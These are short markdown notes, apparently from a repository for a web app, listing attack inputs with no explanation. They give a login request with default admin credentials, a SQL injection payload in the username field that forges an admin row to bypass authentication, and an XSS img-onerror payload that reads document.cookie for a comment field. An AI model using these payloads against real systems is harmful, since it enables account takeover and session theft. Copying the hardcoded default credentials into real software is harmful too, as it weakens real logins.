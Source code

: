 
## Login
```json
{
    "username": "admin",
    "password": "adminpassword"
}
```

```json
{
    "username": "admin ' UNION ALL SELECT 1, 'admin', '81dc9bdb52d04dc20036dbd8313ed055', 'a', 'a', 'a",
    "password": "1234"
}
```

XSS komentar 
```html
<img src="nonexistent.png" onerror="alert(document.cookie);" />
```
